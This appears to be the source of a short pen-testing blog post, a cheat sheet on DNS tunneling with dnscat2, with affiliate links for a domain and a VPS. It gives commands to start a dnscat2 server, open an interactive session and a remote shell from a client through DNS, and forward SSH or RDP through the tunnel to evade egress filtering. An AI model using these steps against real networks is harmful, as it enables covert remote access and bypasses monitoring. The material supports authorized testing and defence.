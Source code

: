 ```yaml
---
layout: blog_item
title: "DNS Tunneling dnscat2 Cheat Sheet"
date:   2021-06-04 10:29:10
author: Arr0way
description: 'Learn what DNS tunneling is, when to use it on a pen test and how to tunnel over DNS using dnscat2.'
categories: [cheat-sheet]
tags:

- 'Infrastructure'
---
```


* list element with functor item
{:toc}

## What is DNS Tunneling 

DNS tunneling is used to evade egress firewall rules and/or IDS / proxy or other web filtering applicances by tunneling data over DNS. DNS tunneling usually works as external DNS resolution is available on most networks, it should be noted that DNS tunneling is slow due to the low amounts of data that can be transfered. 
<!--more-->

**What You Will Learn:**

- What is DNS tunneling 
- How to setup dnscat2
- How to tunnel data over dnscat2 

## You Will Need

1. A real world domain, <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> works well and has free WHOIS privacy.
2. A VPS to run DNSCAT2 - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode is cheap and works for this and this link will give you a $100 voucher</a> (see instructions below) 

In order to tunnel data over DNS a real world domain must be used and the domains authoritivate name servers must be set to servers in your control. 


## Buying a Domain 

<a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a>  offers free domain WHOIS privacy, a lot of extensions and is well priced. 

### How to Change Name Servers On NameSilo 

Login to <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> and follow these instructions to change the authoritative name servers: 

1.  Go to the Domain Manager page within your account
2.  Click the applicable domain name (it will be underlined in black)
3.  Click the "View/Manage Registered NameServers" link within the "NameServers" box

## DNS Forwarding with Dnscat2  

1. Install dsncat2 ```apt-get install dnscat2 -y```
2. Run:  ```dnscat2-server yourdomain.com``` on your VPS
3. From the client machine you will need to run the dnscat2 payload 
4. If your domain's NS are configured correctly the session should be established 
5. Enter ```session -i``` to spawn an interactive session 
6.  Launch a shell using ```shell```

## Dnscat2 Port Forwarding 

Dnscat2 supports TCP forwarding allowing you to tunnel SSH or RDP connections over the established DNS tunnel. 

{% highlight bash %} 
command (client) 4> listen 127.0.0.1:22 target:22 
{% endhighlight %}

Again this will slow but functional. 

Enjoy.	
